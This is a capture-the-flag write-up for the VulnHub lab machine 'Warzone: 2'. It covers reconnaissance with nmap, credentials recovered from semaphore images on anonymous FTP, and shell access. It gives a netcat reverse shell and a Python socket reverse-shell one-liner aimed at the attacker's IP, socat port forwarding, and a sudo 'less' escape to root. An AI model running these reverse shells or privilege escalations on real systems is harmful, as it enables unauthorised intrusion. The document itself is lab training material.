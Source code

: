 # Warzone: 2

[Machine](https://www.vulnhub.com/entry/warzone-2,598/ "https://www.vulnhub.com/entry/warzone-2,598/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.224 -oA ports
```
#### Services scanning:
```
nmap -sV -O -p21,22,1337 192.168.88.224 -oA services
```
### ftp

Anonymous login is allowed.

![ftp](screenshots/ftp.png)

From there we have a three pictures.

username:

![username](ftp/username.PNG)

password:

![password](ftp/password.PNG)

token:

![token](ftp/token.PNG)

I searched for cipher on the username and password pictures. And i got [flag semaphore](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore").

Decode the symbols from pictures and get a username and a password in `creds/`. I wrote it in upper case as wiki says.

### port 1337

1337 port seems to be a custom application.

I tried to take a banner:

![1337 conn](screenshots/1337_banner.png)

## Threat modelling

I think that it is enough to gather. Now we have the creds and have the 1337 port with login. I believe we easily will get remote access and that's all. 

By the way, need to write a script to create the token!

## Vulnerability analysis

### vsftpd

Not vulnerable.

### ssh

Not vulnerable.

### Misconfiguration of ftp

The main vulnerability is this. But i don't know about backend of 1337 port. Maybe here we can also have binary vulnerabilities.

## Exploitation

### Token

[Script to create a token](token.py)

Successfully got access with 'lower' credentials.

![access](screenshots/1337_access.png)

But we don't have shell yet.

### Shell

Get shell is easy:

Local:
```
nc -lnvp 4444
```
Target:
```
nc 192.168.88.225 4444 -c /bin/sh
```
So, after target connected to us, it will open a shell.

![shell](screenshots/shell.png)

```
python -c 'import pty;pty.spawn("/bin/bash")'
```
User - `www-data`.

### ssh flagman

In flagman home directory:

![warzone](screenshots/warzone.png)

Now we have a good shell and ssh access.

## Post exploitation

`sudo -l` will show you admiral wrz2-app.py execute permission which is similiar to server from previous machine Warzone 1
```
sudo -u admiral /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
```
Then you will see the PIN to console on web server. It was not available in previous server because you can see it only on the server side.
Also, the app shows you that it is running on 127.0.0.1:5000 which is local service.

### Port forwarding

I used socat as flagman:
```
socat TCP-LISTEN:8080, fork TCP:127.0.0.1:5000
```

Then go to attack-machine:8080 and you will get the available service.

### /console

In console, we can execute whatevere we want with python. So execute a reverse shell with open nc server:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.88.225",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Got admiral.

### root

`sudo -l will` show you that you can execute less and see the content of warzone-rules.txt

with GTFOBins you can easily get a root:
```
sudo -u root /usr/bin/less /var/public/warzone-rules.txt
!/bin/sh
```

## Sources

### Flag semaphore

[wiki](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore")

### Port forwarding with socat

[port forwarding](https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https "https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https")

### GTFOBins

[shell with less binary](https://gtfobins.github.io/gtfobins/less/#shell "https://gtfobins.github.io/gtfobins/less/#shell")
